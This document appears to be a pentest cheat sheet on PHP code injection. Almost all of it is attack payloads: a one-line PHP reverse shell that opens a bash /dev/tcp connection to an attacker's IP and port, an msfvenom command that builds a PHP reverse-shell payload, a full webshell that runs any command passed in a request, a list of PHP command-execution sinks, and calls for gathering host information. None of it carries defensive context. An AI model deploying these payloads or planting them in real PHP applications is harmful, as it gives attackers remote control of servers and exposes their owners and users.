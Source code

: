 ## Code Injection

### Examples in Different Languages
#### PHP
##### Reverse Shell
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'"); ?>
```
From msfvenom:
```sh
msfvenom -p php/reverse_php LHOST=<ip> LPORT=<port> -f raw -o payload.php
```

##### Webshell
```php
<?php
if(isset($_REQUEST['cmd'])){
  echo "<pre>";
  $cmd = ($_REQUEST['cmd']);
  system($cmd);
  echo "</pre>";
  die;
}
?>
```

##### Code Injection
```php
echo exec("<cmd>");
echo passthru("<cmd>");
echo system("<cmd>");
echo shell_exec("<cmd>");
echo `<cmd>`;
eval('<php code>')
assert('<php code>')
```

##### Information Gathering
```php
phpinfo();
posix_mkfifo();
posix_getlogin();
posix_ttyname();
getenv();
get_current_user();
proc_get_status();
get_cfg_var();
disk_free_space();
disk_total_space();
diskfreespace();
getcwd();
getlastmo();
getmygid();
getmyinode();
getmypid();
getmyuid();
```
